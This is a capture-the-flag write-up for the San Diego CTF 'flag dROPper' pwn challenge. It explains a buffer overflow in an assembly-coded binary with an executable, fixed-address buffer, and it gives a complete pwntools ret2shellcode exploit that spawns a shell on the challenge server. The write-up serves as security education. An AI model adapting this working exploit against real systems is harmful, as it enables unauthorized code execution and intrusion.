 ## San Diego CTF: flag dROPper [pwn]
##### *tl;dr: buffer overflow -> ret2shellcode*

![](dropper_desc.png)
## Challenge Information
#### For this easy level pwnable, we were given a binary that had little security protections enabled (NX disabled, no canary, partial RELRO, no PIE, has RWX segments). The challenge description also hints at the binary being coded in assembly and opening it with GHIDRA proves to be the case:

![](dropper_listing.png)

## Vuln Recon
#### Instead of the usual printf/fgets from the C library, the program uses read/write syscalls to do the I/O. The decompiled code might be confusing since all we see is `syscall()`s, analyzing the assembly code allows us to narrow what it does to the following lines of code:

```c
void main(void) {

	write(stdout, message, 0x4b);
	write(stdout, catch, 0x11);
	read(stdin, buffer, 0xc8);
	write(stdout, buffer, 0x40);
}
```
#### `message`, `catch`, and `buffer` are global variables which store the both of the introductory messages and our input respectively. What we should be interested in is that `buffer` starts at `0x6010a4 then ends at 0x6010e3` thus only having `0x3f` size. The program reads in `0xc8` bytes worth of data thus we clearly have a buffer overflow vulnerability. 

## Exploit Plan
#### Further examination of the address where our input is stored also shows that that region of memory has execute permissions.
![](dropper_vmmap.png)
#### Since that address is not affected by randomization, we can simply write some shellcode and then return to it thus allowing us to pop a shell. 
![](dropper_shell.png)

##### exploit.py
```python
#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./flagDropper', checksec = False)
#libc = ELF('./libc.so.6', checksec = False)

#p = process('./flagDropper')
#p = process('./flagDropper', env = {'LD_PRELOAD' : libc.path})
p = remote("dropper.sdc.tf", 1337)

#: GDB SETTINGS
if args.GDB:
	breakpoints = ['break *0x4005ca']
	gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
context.arch = 'amd64'

payload = asm(shellcraft.sh())
payload += cyclic(72 - len(payload))
payload += p64(0x6010a4)

#: PWN THY VULNS
p.recvuntil(b'CATCH\nf')
p.sendline(payload)
p.interactive()
```
